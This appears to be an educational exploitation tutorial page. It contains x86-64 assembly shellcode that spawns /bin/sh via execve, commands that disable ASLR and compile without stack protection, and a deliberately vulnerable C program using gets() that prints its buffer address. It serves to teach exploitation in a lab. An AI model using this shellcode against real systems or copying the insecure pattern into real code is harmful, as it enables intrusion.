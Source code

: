 ## [Execve](#execve)

```
; Write an assembly program to execute shell using execve() syscall
; execve("/bin/sh", ["/bin/sh", null], NULL)
; Example based on http://shell-storm.org/shellcode/files/shellcode-806.php with slight modifications

global _start
section .text

_start:

;STEP 1 - RDX contains the pointer to the envionment variables (0x0)
        xor rdx, rdx

;STEP 2 - RDI needs to contain a pointer to the filename /bin/sh
	push rdx
	push rdx
	mov rbx, 0x68732f2f6e69622f
	push rbx
	push rsp
	pop rdi

;STEP 3 - RSI needs to contain the pointer to the argv (address to /bin/sh + 0x00..)
	push rdx
	push rdi
	push rsp
	pop rsi

;STEP 4 - prepare syscall execve() - 59 in dec, 0x3b in hex
	xor rax, rax
	mov al, 0x3b
	syscall
```

## [Buffer overflow](#bof)

**Disable ASLR:**<br>
`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

**Compile the file**<br>
`gcc -fno-stack-protector -z execstack buffer.c -o buffer`


In this program, 64 byte long buffer is allocated on the stack, however gets() allows us to store there more data than 64 bytes. Note that the buffer address in GDB is different than when running the program separately and that the buffer address is printed out in order to assist you in this case.
```
#include <stdio.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
	char buffer[64];
	printf("%p\n", buffer);
	printf("Please type your name: \n");
	gets(buffer);
}

```
